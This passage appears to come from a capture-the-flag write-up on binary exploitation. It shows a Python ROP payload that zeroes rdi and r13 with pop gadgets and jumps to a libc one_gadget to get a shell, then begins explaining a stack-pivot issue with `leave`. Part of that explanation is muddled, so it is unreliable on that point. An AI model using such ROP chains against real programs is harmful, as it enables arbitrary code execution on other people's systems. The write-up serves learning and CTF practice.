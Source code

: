 <img src="./Images/onegadget.jpeg" alt="list of one gadgets" style="display:block; margin:auto;">

Since rbp is already in the .data section, rbp-0x38 is already writable. I just need to set rdi and r13 to 0 so I find the pop gadgets for each of the two registers in the provided libc and add them to my second ropchain and push 0 so that they each get set to 0. Finally, I put the address of the one gadget to pop the shell. 

So the second ropchain is:

```python
payload2 = b'A' * 0x40
payload2 += pop_rdi
payload2 += p64(0x0)
payload2 += pop_r13
payload2 += p64(0x0)
payload2 += one_gadget
```

There's still a problem though. Once I set this second ropchain in gets and I attempt to move the stack pointer to rbp with leave, it will not mess up and move rsp to 0x404140 instead of 0x404138 like where rbp actually is. This is because the `leave` instruction actually does two things:

```assembly
mov rbp, rsp ; restores the stack frame
pop rbp ; sets rbp to old rbp of the caller stack frame to continue execution
```
